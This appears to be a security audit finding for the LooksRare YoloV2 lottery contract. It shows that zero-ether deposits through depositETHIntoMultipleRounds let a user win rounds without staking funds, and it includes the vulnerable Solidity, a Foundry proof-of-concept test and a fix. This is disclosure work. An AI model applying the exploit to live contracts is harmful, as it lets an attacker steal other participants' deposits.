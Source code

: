 Active Midnight Hyena

high

# Users can win rounds without risking any funds

## Summary

The `depositETHIntoMultipleRounds` function allows you to participate in rounds and therefore probably win the round without risking any funds by depositing zero ether.

## Vulnerability Detail

Here we can see the `depositETHIntoMultipleRounds` function, that calls the `depositETHIntoMultipleRounds` function, which gets the entry index from the `_getCurrentEntryIndexWithoutAccrual` function:

```solidity
function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
    uint256 numberOfRounds = amounts.length;
    if (msg.value == 0 || numberOfRounds == 0) {
        revert ZeroDeposits();
    }

    uint256 startingRoundId = roundsCount;
    Round storage startingRound = rounds[startingRoundId];
    _validateRoundIsOpen(startingRound);

    _setCutoffTimeIfNotSet(startingRound);

    uint256 expectedValue;
    uint256[] memory entriesCounts = new uint256[](numberOfRounds);

    for (uint256 i; i < numberOfRounds; ++i) {
        uint256 roundId = _unsafeAdd(startingRoundId, i);
        Round storage round = rounds[roundId];
        uint256 roundValuePerEntry = round.valuePerEntry;
        if (roundValuePerEntry == 0) {
            (, , roundValuePerEntry) = _writeDataToRound({roundId: roundId, roundValue: 0});
        }

        _incrementUserDepositCount(roundId, round);

        uint256 depositAmount = amounts[i];
        if (depositAmount % roundValuePerEntry != 0) {
            revert InvalidValue();
        }
        uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
        expectedValue += depositAmount;

        entriesCounts[i] = entriesCount;
    }

    if (expectedValue != msg.value) {
        revert InvalidValue();
    }

    emit MultipleRoundsDeposited(msg.sender, startingRoundId, amounts, entriesCounts);

    if (
        _shouldDrawWinner(
            startingRound.numberOfParticipants,
            startingRound.maximumNumberOfParticipants,
            startingRound.deposits.length
        )
    ) {
        _drawWinner(startingRound, startingRoundId);
    }
}

function _depositETH(
    Round storage round,
    uint256 roundId,
    uint256 roundValuePerEntry,
    uint256 depositAmount
) private returns (uint256 entriesCount) {
    entriesCount = depositAmount / roundValuePerEntry;
    uint256 roundDepositCount = round.deposits.length;

    _validateOnePlayerCannotFillUpTheWholeRound(_unsafeAdd(roundDepositCount, 1), round.numberOfParticipants);

    uint40 currentEntryIndex = _getCurrentEntryIndexWithoutAccrual(round, roundDepositCount, entriesCount);

    ...
}

function _getCurrentEntryIndexWithoutAccrual(
    Round storage round,
    uint256 roundDepositCount,
    uint256 entriesCount
) private view returns (uint40 currentEntryIndex) {
    if (roundDepositCount == 0) {
        currentEntryIndex = uint40(entriesCount);
    } else {
        currentEntryIndex = uint40(
            round.deposits[_unsafeSubtract(roundDepositCount, 1)].currentEntryIndex + entriesCount
        );
    }
}
```

As we can see there is no check to prevent zero amount deposits and depositing zero ether will increase the deposit array and give the deposit the current entry index.

This enables the following attack path:

- Any user deposits funds into the currently running round.
- The attacker deposits zero ether into the currently running round and receives the last index of the honest user's deposit by doing so.
- This can be repeated on every deposit of another user.

Therefore the attacker can win the round without risking any funds.

The following POC can be implemented in the `Yolo.drawWinner.t.sol` test file. The following import must be added to run the test: \
`import {VRFConsumerBaseV2} from "@chainlink/contracts/src/v0.8/VRFConsumerBaseV2.sol";`.

```solidity
function test_winWithZeroDeposit() public {
    // the following import must be added to run this test:
    // import {VRFConsumerBaseV2} from "@chainlink/contracts/src/v0.8/VRFConsumerBaseV2.sol";

    vm.deal(user1, 1 ether);
    vm.deal(user2, 1 ether);
    vm.deal(user3, 1 ether);

    // deposit into multiple rounds array to buy 0 entries for the current round and 1 for the next round
    uint256[] memory amounts = new uint256[](2);
    amounts[0] = 0 ether;
    amounts[1] = 0.01 ether;

    // user2 buys one entry for the current round
    vm.prank(user2);
    yolo.deposit{value: 0.01 ether}(1, _emptyDepositsCalldata());

    // user1 buys zero entries for the current round and 1 for the next round
    vm.prank(user1);
    yolo.depositETHIntoMultipleRounds{value: 0.01 ether}(amounts);

    // user3 buys one entry for the current round
    vm.prank(user3);
    yolo.deposit{value: 0.01 ether}(1, _emptyDepositsCalldata());

    // user1 buys zero entries for the current round and 1 for the next round
    vm.prank(user1);
    yolo.depositETHIntoMultipleRounds{value: 0.01 ether}(amounts);

    vm.warp(block.timestamp + ROUND_DURATION);
    yolo.drawWinner();

    uint256[] memory randomWords = new uint256[](1);
    randomWords[0] = 1;

    vm.prank(VRF_COORDINATOR);
    VRFConsumerBaseV2(yolo).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

    (
        ,
        ,
        ,
        ,
        ,
        ,
        address winner,
        ,
        ,
        IYoloV2.Deposit[] memory deposits
    ) = yolo.getRound(1);

    // 4 deposits in the array but only 2 are non-zero
    assertEq(deposits.length, 4);

    // user1 won the round without risking any ETH
    assertEq(winner, user1);
}
```

## Impact

Users can participate in rounds without risking any funds and therefore steal funds from other users.

## Code Snippet

https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L312-L362

https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1428C36-L1428C71

https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1651-L1663

## Tool used

Manual Review

## Recommendation

Continue the loop if the given ether deposit amount is zero.
